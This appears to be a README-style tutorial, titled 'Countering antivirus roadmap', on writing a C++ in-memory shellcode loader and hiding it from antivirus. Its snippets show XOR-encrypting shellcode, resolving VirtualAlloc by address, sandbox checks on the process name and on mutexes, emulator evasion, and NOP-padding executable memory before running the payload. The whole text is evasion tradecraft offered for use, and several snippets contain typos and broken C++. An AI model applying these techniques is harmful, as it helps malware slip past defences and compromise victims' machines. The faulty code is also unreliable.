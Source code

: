 # Countering antivirus roadmap

Below I will outline several ways to write a shellcode loader in memory and how to hide it from antivirus on C++.

1. [Shellcode encryption](#1)
2. [Using functions via address](#2)

## <a name="1">Shellcode encryption </a>
The simplest and most important way to hide the load is shellcode encryption , this will help bypass static analysis of your file.
You can use both simple xor and more complex encryption methods such as rc4 , etc .

for example:

```
  const char key[]="somekey";
  const char shellcode[]="some shellcode";
  
  char coded[sizeof(shellcode)];
  
  for (int i=0,j=0; i<sizeof(shellcode); i++,j++){
    if (!(j<sizeof(key))) {
    j=0;
    }
    coded[i] = shellcode[i] ^ key[j];
  }
```

## <a name="2">Using functions via address</a>

You can use instead of a direct function call , a call through the address of this function in memory

for example:
```
  typedef LPVOID(__cdecl *MPROC)(LPVOID,SIZE_T,DWORD,DWORD;
  
  MPROC Alloc = (MPROC)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")),"VirtualAlloc");
  char *ex = (char*)Alloc(NULL,sizeof(shellcode),MEM_COMMIT,PAGE_EXECUTE-READWRITE);
```

## Result processing Windows API

The antivirus emulator may not handle all Windows API functions and returns by default Null

for example:
```
  LPVOID res = NULL;
  res = VirtualAllocExNuma(GetCurrentProcess(), NULL, 100, MEM_REVERSE | MEM_COMMIT, PAGE_EXECUTE_READWRITE, 0);
  
  if (res != NULL )
  {
    //exec shellcode
  }
  return 0;
```
## Сhecking the process name

Antivirus during the binary file check can run it not with the original name, to bypass dynamic checking, you can check the name of the file being run.

for example:
```
 int main ( int argc, char* argv[])
 {
  if (argv[0] == "my_name.exe")
  {
    //exec shellcode
  } 
  return 0;
 } 
```

## Сhecking mutex before launching

You can start the program execution process only if a certain mutex is found in the system. If you try to create an existing mutex, the process throws an error.

for example:
```
 HANDLE mutex;
 mutex = CreateMutex( NULL, TRUE, "MY_MUTEX");
 
 if ( GetLastError() == ERROR_ALREADY_EXIST );
 {
  // exec shellcode
 }
 esle 
 {
  startExe("my_proc.exe");
  Sleep(1000);
 }
 return 0;
```

## <a name="Allocating">Allocating a large amount of memory for shellcode</a>

With dynamic program analysis, antiviruses analyze the allocated memory, but they can analyze a certain amount of memory. you can allocate more memory than is necessary to write the silk code and write the first part, which will be analyzed by antivir with empty bytes.

for example:
```
 char *ex = VirtualAlloc(NULL, sizeof(shellcode)*2, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
 char *ex2 = ex + sizeof(shellcode);
 memcpy(ex2, shellcode, sizeof(shellcode));
 
 for( int i=0; i<=sizeof(shellcode)-1; i++)
 {
  ex[i] = 0x90;
 }
 
 ((void(*)())ex)();
```
